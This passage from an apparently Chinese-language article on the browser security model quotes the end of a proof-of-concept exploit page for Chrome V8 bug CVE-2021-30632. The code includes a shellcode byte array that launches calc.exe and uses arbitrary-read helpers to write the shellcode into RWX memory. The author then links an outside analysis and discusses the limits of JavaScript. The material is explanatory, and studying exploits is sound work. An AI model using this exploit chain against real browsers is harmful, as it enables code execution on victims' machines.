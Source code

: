 ``` html
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```

因為漏洞是出現在 V8 裡面，所以可以看到上面的程式碼做了許多「你也看不懂在幹嘛」的操作，而這些操作通常是為了要滿足一些條件，才能讓 V8 發生問題，但詳細的解釋已經脫離了我的守備範圍，有興趣的可以看 GitHub 的資安團隊寫的詳細分析：[Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)

話說，有些對於「JavaScript 的限制」不太清楚的工程師們，常常會想要用 JavaScript 做出一些根本做不到的事情。

在瞭解了瀏覽器的基本安全模型之後，對於這些做不到的功能，你就可以勇敢地對 PM 說出：「對，這功能網頁前端做不到，因為瀏覽器不讓我用這功能」，而不是四處尋找該怎麼呼叫 API，因為根本沒有這些 API 的存在。
